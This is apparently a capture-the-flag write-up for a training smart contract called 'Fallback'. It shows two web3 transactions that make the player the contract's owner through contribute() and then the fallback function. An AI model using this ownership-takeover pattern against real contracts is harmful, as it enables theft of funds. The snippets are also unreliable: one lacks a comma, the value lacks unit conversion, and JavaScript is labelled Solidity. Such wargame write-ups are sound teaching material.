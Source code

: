 # Fallback

In this contract. The vulnerability can be exploited by calling the function contribute() outside the ABI, so that you 
provide an amount lower than 0.001 ether. Then, we take advantage of the Fallback function to take the ownership of 
the contract.

This is done by calling:

```solidity
web3.eth.sendTransaction({
    to: contract.address,
    from: player 
    value: 0.0005,
    data: "0xd7bb99ba"
})
```

0xd7bb99ba Stands for the first four bytes of the hash of "contribute()"
That's how you indicate the function you are calling.


After doing this, we just send a small amount of ether to the contract with no data, or with 
the hash that does not match any function. Like this:

```solidity
web3.eth.sendTransaction({
    to: contract.address,
    from: player 
    value: 0.0005,
    data: "0x00000000"
})
```
